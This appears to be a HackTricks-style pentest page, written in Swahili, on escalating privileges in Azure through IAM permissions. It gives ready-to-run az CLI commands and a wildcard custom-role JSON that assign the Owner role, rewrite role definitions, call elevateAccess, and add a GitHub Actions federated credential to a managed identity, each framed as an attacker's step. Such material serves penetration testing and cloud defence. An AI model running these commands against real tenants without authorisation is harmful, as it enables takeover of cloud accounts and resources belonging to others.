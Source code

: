 # Az - Azure IAM Privesc (Authorization)

{{#include ../../../banners/hacktricks-training.md}}

## Azure IAM

Kwa maelezo zaidi angalia:

{{#ref}}
../az-services/az-azuread.md
{{#endref}}

### Microsoft.Authorization/roleAssignments/write

Ruhusa hii inaruhusu kupewa majukumu kwa wahusika juu ya upeo maalum, ikimruhusu mshambuliaji kupandisha hadhi kwa kujipatia jukumu lenye mamlaka zaidi:
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
### Microsoft.Authorization/roleDefinitions/Write

Ruhusa hii inaruhusu kubadilisha ruhusa zilizotolewa na jukumu, ikimruhusu mshambuliaji kupandisha hadhi kwa kutoa ruhusa zaidi kwa jukumu aliloteua.

Unda faili `role.json` yenye **maudhui** yafuatayo:
```json
{
"roleName": "<name of the role>",
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": ["*"],
"NotActions": [],
"DataActions": ["*"],
"NotDataActions": [],
"AssignableScopes": ["/subscriptions/<subscription-id>"],
"id": "/subscriptions/<subscription-id>/providers/Microsoft.Authorization/roleDefinitions/<role-id>",
}
```
Kisha sasisha ruhusa za jukumu kwa ufafanuzi wa awali ukitumia:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Ruhusa hizi zinaruhusu kuinua mamlaka na kuwa na uwezo wa kutoa ruhusa kwa mtu yeyote kwa rasilimali za Azure. Imeandaliwa kutolewa kwa Wasimamizi wa Kimataifa wa Entra ID ili waweze pia kusimamia ruhusa juu ya rasilimali za Azure.

> [!TIP]
> Nadhani mtumiaji anahitaji kuwa Msimamizi wa Kimataifa katika Entra ID ili wito wa kuinua ufanye kazi.
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
### Microsoft.ManagedIdentity/userAssignedIdentities/federatedIdentityCredentials/write

Ruhusa hii inaruhusu kuongeza akreditivu za Shirikisho kwa utambulisho unaosimamiwa. Mfano, kutoa ufikiaji kwa Github Actions katika repo kwa utambulisho unaosimamiwa. Kisha, inaruhusu **kufikia utambulisho wowote unaosimamiwa ulioelezwa na mtumiaji**.

Mfano wa amri ya kutoa ufikiaji kwa repo katika Github kwa utambulisho unaosimamiwa:
```bash
# Generic example:
az rest --method PUT \
--uri "https://management.azure.com//subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>/federatedIdentityCredentials/<name-new-federated-creds>?api-version=2023-01-31" \
--headers "Content-Type=application/json" \
--body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:<org-name>/<repo-name>:ref:refs/heads/<branch-name>","audiences":["api://AzureADTokenExchange"]}}'

# Example with specific data:
az rest --method PUT \
--uri "https://management.azure.com//subscriptions/92913047-10a6-2376-82a4-6f04b2d03798/resourceGroups/Resource_Group_1/providers/Microsoft.ManagedIdentity/userAssignedIdentities/funcGithub-id-913c/federatedIdentityCredentials/CustomGH2?api-version=2023-01-31" \
--headers "Content-Type=application/json" \
--body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:carlospolop/azure_func4:ref:refs/heads/main","audiences":["api://AzureADTokenExchange"]}}'
```
{{#include ../../../banners/hacktricks-training.md}}
